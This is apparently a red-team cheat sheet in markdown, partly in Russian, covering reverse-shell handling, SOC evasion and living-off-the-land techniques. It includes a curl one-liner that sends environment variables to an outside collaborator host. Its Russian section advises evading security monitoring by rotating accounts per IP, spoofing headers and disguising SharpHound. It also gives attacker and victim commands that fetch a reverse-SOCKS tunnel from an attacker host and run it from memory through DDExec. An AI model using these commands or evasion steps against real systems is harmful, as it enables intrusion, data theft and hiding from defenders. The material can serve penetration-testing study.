 ## CLI tricks

Use `script` command to log history from your reverse shells:
```
script filename.out
```
Use [rlwrap](https://github.com/hanslub42/rlwrap) to add some comfort into nc shells.

To safe a process from killing during an accidental closing of the ssh shell you can run it in the screen utility:
```bash
screen -S nmap-scan # initsialize a new screen called nmap-scan
# Ctrl+A D to exit screen
screen -r nmap-scan # dip into previous screen again
```

To pass data into curl directly from stdin:
```bash
env | grep PLUGIN_FLAG | curl -X POST --data-binary @- https://id.oastify.com/oast
```
## SOC evasion

Желательно использовать одну учетную запись для входа с каждого IP-адреса, не переиспользовать их, а также не подключаться с тех адресов, которые использовались для внешней разведки.

Рекомендуется менять заголовки `X-Forwarded-For` и `User-Agent` во время использования автоматических средств.

Помимо обфускации исходного кода у известных утилит, таких, как SharpHound, рекомендуется также изменять их метаданные (описание, заданное разработчиком исходное имя, цифровую подпись и т. д.), а также зашивать ключи для запуска, чтобы их не было видно в процессах.
## Living off the land

Run ELF executables directly from the memory with [DDExec](https://github.com/arget13/DDexec):

```bash
attacker@kali$ cat revsocks | base64 -w0 > revsocks.b64
attacker@kali$ python3 -m http.server
```

```bash
user@victim$: curl $KALI_ADDR:8000/revsocks.b64 | bash <(curl $KALI_ADDR:8000/ddexec.sh) /bin/nothing-here -connect $KALI_ADDR:8443 -pass SuperSecretPassword
```
It is also possible [to run DDExec without dd](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions/bypass-fs-protections-read-only-no-exec-distroless/ddexec).

To compile executables without dependencies:
```
gcc -static exp.c -o exp -l mnl -l nftnl -w
CGO_ENABLED=0 go build ldflags='-s -w' -o /cmd/agent/main.go # golang
```
You can also try [static-get](https://github.com/minos-org/minos-static).

>Notice that Alpine uses musl libc instead of glibc.

[Mitigations](https://www.cisa.gov/sites/default/files/2024-02/Joint-Guidance-Identifying-and-Mitigating-LOTL_V3508c.pdf?utm_source=convertkit&utm_medium=email&utm_campaign=%F0%9F%A4%94+Do+you+even+know+the+difference%3F%20-%2013071642)
## Obfuscation

### NetAssembly

https://github.com/b4rtik/metasploit-execute-assembly

### LLVM

TODO